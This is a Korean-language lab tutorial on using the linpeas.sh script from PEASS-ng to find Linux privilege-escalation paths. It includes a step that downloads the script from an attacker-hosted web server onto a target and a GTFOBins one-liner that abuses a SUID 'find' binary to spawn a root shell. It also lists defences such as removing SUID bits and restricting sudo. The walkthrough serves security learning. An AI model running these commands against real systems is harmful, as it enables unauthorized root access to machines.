

## 1. 개요

**PEASS-ng (Privilege Escalation Awesome Scripts SUITE new generation)**는 권한 상승 취약점을 자동으로 탐지해 주는 강력한 스크립트 도구 모음이다.
특히 리눅스용인 `linpeas.sh`는 커널 취약점, SUID 파일, 잘못된 설정, 크론 작업 등 시스템 내부의 거의 모든 잠재적 위협을 스캔하고 색상 코드로 위험도를 시각화해준다.

---

## 2. 권한 상승 흐름



---

## 3. 실습 환경

### Vulnerable by Design
```bash
# SUID 취약점이 있는 Docker 환경
docker run -it --rm vulnerables/cve-2021-3156
```

### 수동 SUID 설정 (테스트용)
```bash
# Root 권한으로
chmod u+s /usr/bin/find
```

---

## 4. 설치 및 실행

### 1단계: 스크립트 전송

**공격자 PC (Web Server)**
```bash
python3 -m http.server 8000
```

**대상 서버**
```bash
cd /tmp
wget http://[Attacker IP]:8000/linpeas.sh
```

### 2단계: 실행 권한 부여 및 실행
```bash
chmod +x linpeas.sh
./linpeas.sh
```

---

## 5. 스캔 결과 분석

`linpeas.sh`는 위험도에 따라 색상을 구분하여 출력한다.

| 색상 | 의미 |
|------|------|
| **RED/YELLOW 배경** | 95% 확률 권한 상승 가능 (최우선) |
| **RED** | 주목해야 할 흥미로운 설정 |
| **Green** | 일반적인 시스템 정보 |


**중점 확인 항목:**
*   `SUID/SGID Binaries` 섹션
*   `Sudo -l` 권한
*   `Cron Jobs`
*   Writable `/etc/passwd`

---

## 6. 공격 실습: SUID 권한 상승

### 1. 정보 수집
`linpeas.sh` 결과에서 `/usr/bin/find`가 **Red/Yellow**로 표시됨을 확인.


### 2. GTFOBins 검색
[GTFOBins](https://gtfobins.github.io/)에서 `find` → `SUID` 확인:
```bash
find . -exec /bin/sh -p \; -quit
```

### 3. 공격 실행
```bash
find . -exec /bin/sh -p \; -quit
# whoami
root
```


> `-p` 옵션: 쉘이 유효 사용자 ID(euid)를 유지하여 SUID로 부여된 root 권한을 떨어뜨리지 않음.

---

## 7. 방어 대책

### SUID 관리
*   **불필요한 SUID 제거**: 시스템 내 SUID 바이너리를 주기적으로 점검하고 불필요한 것은 제거한다.
    ```bash
    chmod u-s /usr/bin/find
    ```

### Sudo 제한
*   **NOPASSWD 금지**: `sudoers`에서 `NOPASSWD` 설정을 최소화한다.
*   **명령어 화이트리스트**: 특정 명령어만 허용하도록 설정한다.

### 취약점 스캐닝 자동화
*   주기적으로 `linpeas.sh`를 실행하여 내부에서 발견할 수 있는 취약점을 선제적으로 조치한다.

<hr class="short-rule">